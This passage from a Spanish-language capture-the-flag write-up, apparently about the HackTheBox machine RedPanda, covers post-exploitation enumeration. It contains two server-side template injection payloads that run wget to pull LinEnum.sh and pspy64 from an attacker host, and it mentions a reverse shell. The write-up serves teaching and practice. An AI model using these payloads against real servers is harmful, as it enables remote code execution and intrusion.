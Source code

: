 
Con `wget` o `curl` para esto, tambien dejo ur [recurso] para que investigues mas del tema.


[recurso]: https://ironhackers.es/cheatsheet/transferir-archivos-post-explotacion-cheatsheet/


```bash
*{"".getClass().forName("java.lang.Runtime").getRuntime().exec("wget http://10.10.14.40:8000/LinEnum.sh")}
```


{:.note}
Podemos darle permisdo desde aqui o desde la reverse-shell.



```bash
*{"".getClass().forName("java.lang.Runtime").getRuntime().exec("wget http://10.10.14.40:8000/pspy64")}
```


Y por ultimo hacemos el tratamiento de la [tty] para poder movernos por el servidor tranquilamente dejo el link a hacktrick para que sepas mas del tema.


[tty]: https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/full-ttys 


Lo tipico hacemos aki whoami, id me permite averiguar si el usuario actual pertenece al grupo logs ademas de ver la flag de user que esta en la ruta `/home/wookdenk`. 


Una búsqueda rápida en los procesos actuales con `LinEnum`  , `pspy64`  o `ps aux | grep root`,nos permite encontrar que la aplicación de la interfaz web es de `panda_search-0.0.1-SNAPSHOT.jar`. 


Al buscar los archivos propiedad del grupo logs, me he dado cuenta de que `/opt/panda_search/redpanda.log`. 


También tenemos acceso de lectura y escritura en `/tmp` y `/home/woodenk/`.


![list](/assets/img/redpanda/Arch-2022-08-31-16-26-48.png){:.lead width="800" height="100" loading="lazy"}


Husmeando por ahi nos encontramos con una base de datos pero no lleva a nada interesante.


![list](/assets/img/redpanda/Arch-2022-08-31-16-20-19.png){:.lead width="800" height="100" loading="lazy"}


[Hacktricks]: https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection
[Blog]: https://www.acunetix.com/blog/web-security-zone/exploiting-ssti-in-thymeleaf/
[PayloadsAllTheThings]: https://github.com/swisskyrepo/PayloadsAllTheThings
